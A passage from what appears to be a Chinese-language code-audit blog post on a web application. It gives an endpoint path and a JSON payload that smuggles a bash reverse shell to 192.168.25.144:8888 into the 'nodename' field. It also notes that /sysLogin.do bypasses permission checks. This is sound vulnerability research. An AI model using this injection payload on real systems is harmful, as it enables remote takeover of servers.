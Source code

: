 [image](https://novysodope.github.io/images/94/uhUUAAjoYdiN6xquvOQjt-FJEm2eD0nxl2SygfiGFXk.png "image")

[![image](assets/1707005828-29358961b9c1d09f81d85b45d704e609.png)](https://novysodope.github.io/images/94/brfEbrhkETTnh4b59Gfjl6DGoKDipVRAG3TzY08wrz8.png "image")

[image](https://novysodope.github.io/images/94/brfEbrhkETTnh4b59Gfjl6DGoKDipVRAG3TzY08wrz8.png "image")

根据案例一介绍，搭配 web.xml 的映射配置，url 为：

```bash
/tsce4/monPhysicalView?op=systemShutdown
 
{"nodename":"a | bash -i >& /dev/tcp/192.168.25.144/8888 0>&1 |"}
```

##### [](#%E6%A1%88%E4%BE%8B%E4%B8%89%E3%80%81 "案例三、")**案例三、**[](#%E6%A1%88%E4%BE%8B%E4%B8%89%E3%80%81)

还是 web.xml

在 web.xml 的初始化内容中看到，`/sysLogin.do`可以不用进行权限校验

